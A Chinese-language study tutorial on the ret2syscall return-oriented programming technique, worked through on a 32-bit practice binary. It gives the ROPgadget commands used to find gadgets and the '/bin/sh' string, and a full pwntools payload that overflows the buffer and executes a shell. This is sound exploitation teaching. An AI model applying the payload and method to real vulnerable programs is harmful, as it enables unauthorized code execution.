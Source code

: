 # Rop-Ret2Syscall技术学习

### Ret2Syscall

前面所学的Ret2Text 和 Ret2Shellcode都有一定的局限性；要根据情况加以运用

​		首先是Ret2Text 运用的前提是 函数中由我们需要 函数代码；例如 以获取用户权限为例，使用Ret2Text 的方式需要我们在程序中具有System函数，如果没有该函数，就很难进行下一步；因此进一步提出了Ret2Shellcod，对于没有System函数的程序，我们在程序分配的变量空间中找到一个合适的长度，然后将我们构造的shellcode(用于实现System函数)的代码写入，然后通过ret，使指令运行到该处，把数据当作指令解析来运行；在这个过程中，有一个必要条件，即数据存放的位置具有可执行权限 --->也就是未开启NX保护

​		面对开启NX保护，又缺少目标代码的程序，进一步提出了解决方案Ret2Syscall， 需要ROPgadget小工具，Gaget是指在程序中的指令片段，为了达到目的，需要多个Gaget。Gaget一般最后都有一个ret，因为要将程序控制权(ip)给下一个Gadget

**Attention:**该方法同样有一定的局限性，需要存在我们构造函数的所有gadgets，缺一不可！！！

### ROPgaget工具

用于在代码段中查找自己所需要的代码片段





### 程序示例

#### 查看程序的保护措施

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-03-05_20-26-00.png)

由上图可知，该程序开启了NX保护，即我们无法使用Ret2Text 和Ret2Shellcode

#### GDB查看程序

使用命令查看main函数大概流程如下图，较为简单

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-03-05_20-19-41.png)

可知，程序首先是，输出两个字符串，然后要求进行输入



#### 查看溢出点

使用 cyclic 200，生成字符串，然后输入，计算偏移位置

得到 偏移量 为 112 ，可知输入地址到返回地址的偏移量为112



#### 明确目标

​		由前面的工作，我们已经知道了，目前要使用Ret2Syscall的方法，因此我们需要查找gadgets片段，但我们首先需要搞清楚自己需要的gadget片段是什么；

​		首先，要明白，我们需要构建 实现System函数，而该函数的本质是内部系统调用；需要设置一定的参数，具体如下(以32位程序环境为例)

```
系统调用号，即 eax 应该为 0xb

第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。

第二个参数，即 ecx 应该为 0

第三个参数，即 edx 应该为 0
```

所以 对应的需要以下几条指令

```
pop eax；ret  
pop ebx;pop ecx;pop edx;ret
```





#### 查找对应地址

首先使用ROPgadget查找pop eax | ret的地址,指令如下

```
ROPgadget --binary ./ret2syscall --only "pop|ret" | grep "eax"  
#"pop|ret" 表示查找 ret连在pop指令后面的 gadget ，但符合条件的指令集较多，因此使用grep "eax"  ，缩小范围，找出我们想要的指令
```

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-03-05_20-59-24.png)



由上面可知第一个地址为 0x080bb196



其次，使用ROPgadget查找具有 pop ebx;pop ecx;pop edx;ret 的指令

```
ROPgadget --binary ./ret2syscall  --only "pop|ret" |grep "ebx"|grep "ecx" |grep "edx"
```

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-03-06_10-38-30.png)

由上图可知，目标地址为 0x0806eb90 

由于ebx中要送入 "/bin/sh" 字符串的位置，所以我们也需要找到该字符串地址

```
ROPgadget --binary ./ret2syscall  --string "/bin/sh"
```

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-03-06_10-52-09.png)

得到该字符串的存储地址为 0x080be408

最后，我们把所有参数构造完成后，我们需要执行 int 0x80 ，告诉系统调用那个函数，我们需要执行该指令，那么同样需要找到该地址

```
ROPgadget --binary ./ret2syscall  --only "int"
```

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-03-06_11-05-58.png)

所需要的地址为 0x08049421

#### 堆栈图

所以为了完成目的，需要构造对应的堆栈图，如下图所示

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-03-06_15-20-35.png)

#### Payload

```python
from pwn import *
context(arch = "i386",os = "linux")
io = process("ret2syscall")
offset = 112
pop_eax = p32(0x080bb196)
pop_edx_ecx_ebx = p32(0x0806eb90)
bin_sh = p32(0x080be408)
int_0x80 = p32(0x08049421)

payload = b'A'*offset +pop_eax + p32(0xb) + pop_edx_ecx_ebx + p32(0) + p32(0) + bin_sh + int_0x80
#pause()   #用于调试
io.sendline(payload)
io.interactive()

```



#### 调试验证

首先，我们需要在payload发送前加入一个暂停函数，以便于GDB附加进行调试，参见payload

需要两个终端界面，其中一个使用 Python 运行 exp ，然后可以得到 程序的pid，并暂停下来；在另一个终端界面 使用gdb 附加到该pid进行调试，具体情况如下图

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-03-06_15-43-43.png)

由上图 可以清晰看到，exp运行后得到pid 然后暂停，使用gdb附加后，即可进入调试，此时为kernel函数，使用finish指令，运行完该函数

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-03-06_15-50-12.png)

接着，多次` finish`进入main函数，然后单步运行 

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-03-06_15-52-56.png)

然后走出main函数，得到如下图所示，可以很清楚的看到我们所构造的执行流程和栈数据

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-03-06_15-54-08.png)

多次`n`指令，单步运行后，可得到如下结果，我们的目标已经实现了

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-03-06_15-57-39.png)